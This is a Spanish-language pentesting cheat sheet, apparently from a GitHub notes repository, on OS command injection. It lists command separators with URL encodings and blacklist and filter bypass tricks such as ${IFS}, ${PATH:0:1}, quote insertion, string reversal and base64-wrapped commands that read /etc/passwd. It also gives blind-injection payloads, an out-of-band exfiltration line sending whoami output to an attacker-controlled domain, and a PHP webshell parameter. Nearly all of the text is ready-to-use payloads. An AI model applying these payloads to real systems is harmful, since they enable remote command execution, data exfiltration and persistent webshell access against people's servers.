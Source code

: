 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)


Semicolon 	; 	%3b 	Both
New Line 	 \n 	%0a 	Both
Background 	& 	%26 	Both (second output generally shown first)
Pipe 	      | 	%7c 	Both (only second output is shown)
AND 	     && 	%26%26 	Both (only if first succeeds)
OR 	       || 	%7c%7c 	Second (only if first fails)
Sub-Shell  `` 	%60%60 	Both (Linux-only)
Sub-Shell  $() 	%24%28%29 	Both (Linux-only)

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:


${IFS} inserta un espacio y una tabulación y luego el comando


{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:


${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"


$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:


127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */


Command Injection 	; &&


LDAP Injection 	* ( ) & |


XPath Injection 	' or and not substring concat count


OS Command Injection 	; & |


Code Injection 	' ; -- /* */ $() ${} #{} %{} ^


Directory Traversal/File Path Traversal 	../ ..\\ %00


Object Injection 	; & |


XQuery Injection 	' ; -- /* */


Shellcode Injection 	\x \u %u %n


Header Injection 	\n \r\n \t %0d %0a %09



### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando

who'am'i

who"am"i

##### Linux only:
who$@ami

w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:

WhOaMi 

Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

#### Encodear un comando:

ejemplo de comando pasado a base64:

    echo -n 'cat /etc/passwd | grep 33' | base64

resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

    payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:
parameter = ${system($_GET[cmd])}&cmd=
